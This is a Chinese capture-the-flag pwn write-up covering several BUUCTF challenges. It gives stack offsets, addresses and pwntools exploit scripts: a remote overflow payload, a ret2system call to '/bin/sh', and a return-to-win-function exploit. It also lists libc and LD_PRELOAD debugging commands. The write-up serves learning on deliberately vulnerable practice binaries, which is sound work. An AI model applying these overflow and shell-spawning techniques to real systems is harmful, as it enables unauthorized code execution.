


# pwn wp
### 1.ciscn_2019_n_1
v1地址为0x04。v2地址为0x30 计算偏移量为2c
而11.28125地址为0x41348000h
所以payload
```python
from pwn import *
p = remote('node3.buuoj.cn', 27751)
addr = 0x41348000
offset = 0x2c
payload = 'A'* offset + p64(addr)
p.sendline(payload)
p.interactive()
```
### 2.level2
shift+f12看到关键字`bin/bash 0804A024 hint            db '/bin/sh',0`
得到'/bin/bash'点地址0x804A024
system函数地址 `_system	.plt	08048320	00000006	00000000	00000004	R	.	.	.	.	T	.`
```python
system_addr = 0x08048320
bin_addr = 0x804A024
payload = "a" * (0x88 + 4) + p32(system_addr) + "a" * 4 + p32(bin_addr)
```
`函数地址和参数地址中的'a' * 4 实际是system函数的返回地址`
### 3.buuctf_rip
文件为64位的elf。

通过调试得到偏移量为23

这里有个问题

直接调用`system`函数当然可以，但是必须注意，地址是`0x40118A`。
那么exp就是
```python
from pwn import *
payload = 'A'* 23 +p64(0x40118A)
```
不过由于ubuntu18的原因，调用函数需要先ret一下对齐堆。
### OGeek2019_babyrop
留意一些简单的命令：

```linux
    readelf -s /lib32/libc.so.6 | grep 'gets@'  #可以得到gets在libc.so.6中的地址
    cat /proc/`pidof 文件名字`/maps
    
    LD_LIBRARY_PATH=. ldd ./文件名字
    ldd ./文件名字
    export LD_LIBRARY_PATH=`pwd` #当前目录为加载目录
    export LD_PRELOAD=你的libc #加载本地pwn题目下的libc
    最后不用了在：unset LD_PRELOAD #调试完记得删除环境变量
```

